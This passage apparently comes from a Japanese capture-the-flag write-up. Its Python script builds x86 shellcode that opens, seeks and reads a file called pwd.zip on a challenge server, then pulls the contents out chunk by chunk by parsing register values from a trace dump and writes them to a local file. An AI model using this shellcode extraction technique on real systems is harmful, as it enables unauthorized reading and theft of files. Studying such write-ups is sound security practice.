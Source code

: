     print execute(shellcode_ls, "")

lseekとreadでpwd.zipを読み込む。

    wfile = open("pwd.zip", "w")
    readed = 0
    readsize = 0x10400
    while readed < readsize:
        print readed
        shellcode_cat = """
        bits 32
        org 0
        lea ebx,[eax + A + 1] ;eax = address of shellcode
        xor eax,eax
        mov al,0x5 ;open
        xor ecx,ecx
        cs int 0x80
     
        mov ebx, eax
        mov ecx, 0x{0:x}
        xor edx, edx ;SEEK_SET
        xor eax,eax
        mov al, 19 ;lseek
        cs int 0x80
     
        xor eax,eax
        mov al,0x3 ;read
        mov edi,esp
        mov ecx,edi
        mov edx,0x100000
        cs int 0x80
     
        shr eax, 2
        mov esi, esp
        mov ecx, eax
        rep lodsd
     
        A:
        db "pwd.zip", 0
        """.format(readed)
     
        result = execute(shellcode_cat, "")
        m = re.findall(r"""eip: f3 ad \( rep lodsd \)
     
    eax=(\w+), ecx=\w+, edx=\w+, ebx=\w+
    esi=\w+, edi=\w+, esp=\w+, ebp=\w+
    eip=\w+, eflags=\w+""", result, re.M)
        buf = ""
        for value in m:
            buf += pack.pl32(int(value, 16))
            readed += 4
        wfile.write(buf)
     
    wfile.close()

pwd.zipを解凍すると comb,xxx.bin,hint.txtが出てくる。
